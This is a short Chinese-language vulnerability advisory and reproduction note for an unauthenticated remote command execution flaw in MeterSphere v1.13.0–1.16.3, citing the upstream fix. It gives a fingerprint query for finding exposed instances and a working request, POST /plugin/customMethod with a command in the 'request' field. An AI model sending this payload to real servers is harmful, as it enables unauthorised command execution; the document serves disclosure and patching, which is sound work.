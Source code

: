 # 

# MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复。

## 漏洞影响

```
MeterSphere v1.13.0 - v1.16.3
```

## 网络测绘

```
body="MeterSphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```
https://github.com/metersphere/metersphere/pull/9140/files
```

![image-20230424163652968](images/image-20230424163652968.png)

查看文件 /backend/src/main/java/io/metersphere/controller/PluginController.java

![image-20230424163710253](images/image-20230424163710253.png)

发送请求包

```
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![image-20230424163729245](images/image-20230424163729245.png)
